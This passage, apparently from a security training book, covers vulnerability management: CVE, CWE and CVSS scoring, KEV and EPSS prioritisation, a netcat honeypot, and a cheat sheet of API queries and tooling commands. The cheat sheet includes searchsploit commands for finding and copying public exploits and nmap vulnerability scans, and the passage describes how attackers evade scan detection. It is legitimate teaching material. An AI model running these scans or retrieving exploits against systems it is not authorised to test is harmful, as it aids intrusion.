**Counter-detection, from the offensive side, framed for defenders:** attackers reduce the signal by scanning slowly, randomising target order, spreading across source IPs, using only passive sources (certificate transparency logs, DNS records, Shodan-style datasets) that never touch the target, and mimicking legitimate user agents. Your defence against passive recon is not detection — it is attack-surface reduction: unnecessary DNS records, forgotten subdomains, and expired-but-still-resolving cloud assets are found without ever sending you a packet.

### Deception as a Detection Control

Because scanning is version-driven, it is cheaply deceived. A **honeypot** service on an unused port, or a fake vulnerable version banner on a host with no legitimate users, generates a **zero-false-positive alert**: nobody has any legitimate reason to touch it.

```bash
# Minimal honeypot listener that logs any connection attempt
sudo nc -lvnp 21 2>&1 | logger -t ftp-honeypot
```

`-l` listen, `-v` verbose, `-n` no DNS resolution, `-p` port; `logger -t` writes to syslog with a tag you can alert on. This is illustrative rather than production-grade — real deployments use purpose-built honeypot software with proper isolation — but the principle holds: an alert with no legitimate cause is worth ten alerts you have to triage.

### Using CVE/CWE Data Defensively

**Turn KEV into a standing control.** Automate a daily diff of the KEV catalog against your asset inventory. New KEV entry matching a product you run should page someone, not appear in a monthly report.

```bash
#!/usr/bin/env bash
# kev_watch.sh — alert on new KEV entries affecting products we run
curl -s https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json \
  | jq -r '.vulnerabilities[] | [.cveID, .vendorProject, .product, .dueDate] | @tsv' \
  | sort > kev_today.tsv

if [ -f kev_yesterday.tsv ]; then
  comm -13 kev_yesterday.tsv kev_today.tsv > kev_new.tsv
  # Match new entries against an inventory of vendor/product strings we operate
  grep -Ff inventory_products.txt kev_new.tsv || echo "No new KEV entries affect our stack."
fi
mv kev_today.tsv kev_yesterday.tsv
```

`comm -13` prints only lines unique to the second file — i.e. the newly added entries. `grep -Ff` reads fixed-string patterns from a file, which is the fast, safe way to match hundreds of product names.

**Turn CWE into detection engineering.** A CVE-specific signature is obsolete the moment the exploit is tweaked; a CWE-level detection generalises. If your incoming CVEs cluster on CWE-502 (deserialization), the durable investments are: a WAF rule set for serialized-object markers, runtime allow-listing of deserializable classes, and a code-review rule — none of which are tied to any single CVE.

**Turn CWE into secure-SDLC feedback.** Track the CWE distribution of your own findings over time. Repeated CWE-89 means your data layer needs parameterised queries enforced by a lint rule, not another pentest. This is the difference between fixing bugs and fixing the process that produces them.

**Feed the vector into asset-aware policy.** `AV:N` findings on internet-facing assets and `AV:L` findings on multi-user servers are the two highest-yield slices. `AV:P` findings on a datacentre host with physical access control are usually the definition of "accept with a documented control".

### Making Yourself Harder to Enumerate

Reducing the fidelity of an attacker's version data is a genuine, if modest, control — it buys time, and it defeats purely automated mass exploitation.

```apache
# Apache: stop advertising the exact version and OS
ServerTokens Prod
ServerSignature Off
```

```nginx
# nginx: suppress the version in the Server header and error pages
server_tokens off;
```

Be honest about what this achieves. It does not fix anything, and a determined attacker fingerprints behaviour rather than banners. Its real value is that mass-scanning botnets and commodity scanners key on banners, so it removes you from the low-effort target list — and it makes *your* validated, authenticated inventory the authoritative source of truth rather than something an outsider can read off the wire.

---

## Part 14: Final Revision

The compressed version of everything above.

**Identity, class, severity, reality — four different questions.**

- **CVE** = the *name* of a specific flaw in a specific product. Not a severity, not a database. Format `CVE-YYYY-NNNN+`, where the year is the *reservation* year and the sequence has **four or more** digits. Assigned by federated **CNAs** within declared scopes, under Roots and Top-Level Roots (MITRE and CISA). States: Reserved, Published, Rejected, plus a Disputed tag. Rejected IDs are never reused.
- **NVD** = NIST's *enriched view* of the CVE corpus, adding CVSS, CWE and CPE. Enrichment lags; `vulnStatus` of `Awaiting Analysis` means no score and no CPE, which silently breaks score-based filters and CPE matching. Never treat "no score" as "no risk".
- **CWE** = the *weakness class*. Map at **Base** level (CWE-89), not Class (CWE-20) and never at Category level. Views: CWE-1000 research, CWE-699 development, CWE-1003 NVD mapping. Chains (CWE-190 → CWE-787) and composites (CWE-352) describe how real bugs actually work, and often reveal the cheapest fix.
- **CVSS** = *intrinsic severity*, 0.0–10.0, from FIRST. **Base = severity, not risk.** Read the vector, not the number.
  - v3.1 Base: **AV, AC, PR, UI, S, C, I, A**. Scope is the biggest score-mover and the hardest metric. AC means conditions outside the attacker's control, not exploit difficulty.
  - Base = `Roundup(min(Impact + Exploitability, 10))`, ×1.08 when Scope is Changed; `Exploitability = 8.22 × AV × AC × PR × UI`.
  - **Environmental metrics (CR/IR/AR, MAV…MA) are the group you should actually be using** — they let you downgrade a finding with auditable evidence instead of an opinion.
  - v2 has no Scope and coarse N/P/C impact, which is why Heartbleed scored 5.0 "Medium". v4.0 replaces Scope with VC/VI/VA + SC/SI/SA, adds AT, adds a Supplemental group, and introduces the CVSS-B / BT / BE / BTE nomenclature.
- **Exploitation reality** is a *separate axis*: **KEV** (confirmed exploited — treat as an override), **EPSS** (30-day exploitation probability; use the probability for absolute thresholds and the percentile for relative ranking), **SSVC** (a decision tree that yields Track / Track\* / Attend / Act instead of a number).
- **CPE** is the join key between an inventory and a CVE — and the source of most false positives, chiefly through **distro backporting**, which authenticated scanning and OVAL/CSAF advisory data solve.
- **Assessment ≠ scanning.** Validate reachability and realism, apply environmental context, prioritise on exploitation evidence, and back every claim with an artefact. The scanner's PDF is your input, not your output.

Practical priority policy, in one line: **KEV first, then high EPSS on exposed assets, then validated high CVSS, then routine — and never sort a report by base score alone.**

---

## Part 15: Cheat Sheet

### Identifier formats

```
CVE-2021-44228          # CVE-YYYY-NNNN+   regex: CVE-\d{4}-\d{4,}
CWE-89                  # weakness class
GHSA-jfh8-c2jp-5v3q     # GitHub advisory
cpe:2.3:a:apache:log4j:2.14.1:*:*:*:*:*:*:*
pkg:maven/org.apache.logging.log4j/log4j-core@2.14.1
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N
```

### CVSS v3.1 metric values at a glance

| Metric | Values | Weights |
|---|---|---|
| AV — Attack Vector | N / A / L / P | 0.85 / 0.62 / 0.55 / 0.20 |
| AC — Attack Complexity | L / H | 0.77 / 0.44 |
| PR — Privileges Required | N / L / H | 0.85 / 0.62 / 0.27 (S:U); 0.85 / 0.68 / 0.50 (S:C) |
| UI — User Interaction | N / R | 0.85 / 0.62 |
| S — Scope | U / C | ×1.08 and steeper Impact when C |
| C, I, A | H / L / N | 0.56 / 0.22 / 0.00 |

Severity bands: **0.1–3.9 Low · 4.0–6.9 Medium · 7.0–8.9 High · 9.0–10.0 Critical**

Vector shapes worth recognising instantly:

```
AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H  = 9.8   unauth remote RCE
AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H  = 10.0  unauth remote RCE crossing a boundary
AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  = 7.5   unauth remote info disclosure
AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H  = 7.5   unauth remote DoS
AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H  = 7.8   local privilege escalation
AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H  = 8.8   authenticated remote RCE
AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N  = 6.1   reflected XSS
```

### API one-liners

```bash
# NVD — one CVE, key fields
curl -s -H "apiKey: $NVD_API_KEY" \
  "https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228" \
  | jq '.vulnerabilities[0].cve | {id, vulnStatus,
        v: .metrics.cvssMetricV31[0].cvssData.vectorString,
        s: .metrics.cvssMetricV31[0].cvssData.baseScore,
        cwe: .weaknesses[0].description[0].value}'

# NVD — everything matching a CPE
curl -s -G https://services.nvd.nist.gov/rest/json/cves/2.0 \
  --data-urlencode 'cpeName=cpe:2.3:a:apache:http_server:2.4.49:*:*:*:*:*:*:*'

# NVD — only KEV-listed criticals
curl -s -H "apiKey: $NVD_API_KEY" \
  "https://services.nvd.nist.gov/rest/json/cves/2.0?hasKev&cvssV3Severity=CRITICAL&resultsPerPage=20"

# EPSS — batch
curl -s "https://api.first.org/data/v1/epss?cve=$(paste -sd, cves.txt)" \
  | jq -r '.data[] | [.cve,.epss,.percentile] | @tsv'

# EPSS — full daily dataset
curl -s https://epss.empiricalsecurity.com/epss_scores-current.csv.gz | gunzip > epss.csv

# KEV — catalog and IDs
curl -s https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json -o kev.json
jq -r '.vulnerabilities[].cveID' kev.json | sort > kev_ids.txt

# KEV — ransomware-linked only
jq -r '.vulnerabilities[] | select(.knownRansomwareCampaignUse=="Known") | .cveID' kev.json

# OSV — by package and version
curl -s https://api.osv.dev/v1/query \
  -d '{"package":{"name":"log4j-core","ecosystem":"Maven"},"version":"2.14.1"}' \
  | jq -r '.vulns[].id'

# Full offline CVE corpus
git clone --depth 1 https://github.com/CVEProject/cvelistV5.git
```

### Local tooling

```bash
# Exploit availability
searchsploit --cve 2021-44228            # search by CVE
searchsploit -t apache 2.4.49            # title-only search
searchsploit -x <path>                   # READ the exploit before running it
searchsploit -m <path>                   # copy it locally
searchsploit --nmap scan.xml             # feed an Nmap XML straight in
sudo searchsploit -u                     # update the local mirror

# Nmap CVE mapping
sudo nmap -sV --script vulners --script-args mincvss=7.0 -oA scan TARGET
sudo nmap -sV --script vuln TARGET

# Extract CVE IDs from any output
grep -oE 'CVE-[0-9]{4}-[0-9]{4,}' output.txt | sort -u

# Score / rescore a vector
python3 -c "from cvss import CVSS3; c=CVSS3('CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/MAV:L'); print(c.scores(), c.severities())"

# Backport check (is the CVE actually fixed in the installed package?)
rpm -q --changelog httpd | grep -i CVE-2023-25690      # RHEL family
apt-get changelog openssl | grep -i CVE-2023-0286       # Debian family

# Container / image inventory
trivy image --severity HIGH,CRITICAL nginx:1.21
```

### Prioritisation policy, condensed

| Condition | Priority | Action |
|---|---|---|
| In CISA KEV | **P1** | Patch or isolate immediately, any CVSS |
| EPSS ≥ 0.10 **and** internet-facing / crown jewel | **P2** | This sprint |
| CVSS-B ≥ 9.0 **and** validated reachable | **P3** | Next scheduled cycle |
| Everything else | **P4** | Routine cycle, or accept with a documented, time-bounded compensating control |

### Sanity checks before you publish a finding

1. Was it detected by banner, package query, or an active check?
2. Does the distro backport patches for this package?
3. Is the vulnerable code path reachable in this configuration?
4. Is it reachable from the *assumed attacker position*, not from your jump box?
5. Is it in KEV? What is its EPSS?
6. Have you stated the CVSS version and, where relevant, a modified vector with reasoning?
7. Is there an artefact backing every claim in the finding?

---

## Part 16: Practice Labs & Resources

Everything below trains a skill from *this* chapter specifically — reading records, computing and modifying scores, mapping weaknesses, and prioritising.

**Score and vector fluency**

1. **FIRST CVSS v3.1 and v4.0 calculators.** Take ten CVEs you have never seen, read only the description, score them yourself, then reveal the published vector and diff your reasoning metric by metric. Do this until your Scope and AC judgements stop disagreeing with the published ones — those two are where nearly all disagreement lives.
2. **Reverse the arithmetic.** Given only the score 7.8, write down the vector you expect (`AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`) and check it against three real local-privesc CVEs. Repeat for 9.8, 7.5 and 6.1.
3. **Environmental rescoring drill.** Take five Critical findings from any public scan report and rescore each with modified base metrics for three fictional deployments: internet-facing, internal-only, and air-gapped. Write the one-sentence justification for each `M*` metric you change. This is exactly the artefact a client will challenge.

**Record reading**

4. **Clone `cvelistV5`** and, with `jq` alone, answer: how many records in one year block are `REJECTED`; which CNA assigned the most IDs in that block; how many carry a CNA-supplied CVSS vector. This forces you to learn the record schema properly.
5. **Diff a CNA score against the NVD score** for ten CVEs where both exist. Where they disagree, work out which metric caused it and decide which you would defend.

**Prioritisation**

6. Extend `rank.py` from Part 10 to also consume an asset-criticality CSV and produce a genuinely environment-aware queue. Then run it against a KEV snapshot and see how many P1s you actually have.
7. Build the `kev_watch.sh` daily diff from Part 13 and run it for a fortnight against a realistic product inventory.

**Targets for the scanning stage**

8. **Metasploitable 2/3** — dense with era-appropriate CVEs; ideal for the full Part 10 pipeline end to end.
9. **VulnHub boxes** — pick any with an unauthenticated network service and practise the *validation* steps, not the exploitation.
10. **TryHackMe** — the Nessus/OpenVAS and vulnerability-management rooms walk the scanner side; pair them with this chapter's manual enrichment to see what the GUI hides.
11. **HackTheBox** retired easy machines — practise going from `nmap -sV` output to a validated CVE list *before* looking at any writeup. Getting the CVE right from the banner is a distinct skill from exploiting it.

**Weakness-class depth**

12. **PortSwigger Web Security Academy** — work one CWE at a time (start with CWE-918 SSRF and CWE-863 broken access control) until you can recognise the class from the application's behaviour alone. This is the single highest-value use of time for bug bounty.
13. **Disclosed HackerOne and Bugcrowd reports** — read twenty and record the CWE for each. The distribution you find is what you should be hunting.
14. **CWE Top 25 methodology.** Read how the list is computed, then reproduce a crude version yourself from an NVD bulk export: count CVEs per CWE, weight by CVSS, and compare your ranking to the published one.

**Reference material worth bookmarking**

- The CVSS v3.1 and v4.0 specification documents from FIRST — the metric definitions include worked examples that settle most scoring arguments.
- The EPSS model documentation from FIRST, especially the sections on interpreting probability versus percentile.
- The CISA KEV catalog and the SSVC decision-tree documentation.
- The CWE site's mapping guidance, which explains exactly why Category-level and CWE-20 mappings are discouraged.

The next chapter puts a real scanner behind all of this: **Nessus — installation, policies, scanning and reporting** — where you will see how a commercial engine implements the plugin logic, credentialed checks and severity mapping described here, and where the enrichment and validation habits from this chapter turn its raw output into something worth delivering.
